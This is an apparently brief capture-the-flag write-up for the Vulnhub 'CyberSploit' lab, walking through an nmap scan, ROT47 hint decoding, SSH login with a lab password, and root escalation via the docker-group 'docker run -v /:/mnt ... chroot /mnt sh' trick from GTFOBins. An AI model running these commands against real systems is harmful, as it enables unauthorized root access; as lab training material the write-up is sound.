






CyberSploit, Vulnhub Writeup
Posted by Alienum
Port Scan
nmap -A -O -sS 10.0.2.43

Enumeration found the hint about ROT47

Rot47 decoder

Lets try ssh
ssh shailendra@10.0.2.43
password:cybersploit1

I typed id and i saw that it runs docker, let's try privesc.
I tried GTFOBins docker shell

docker run -v /:/mnt --rm -it alpine chroot /mnt sh
The image alpine downloaded and now i am the root
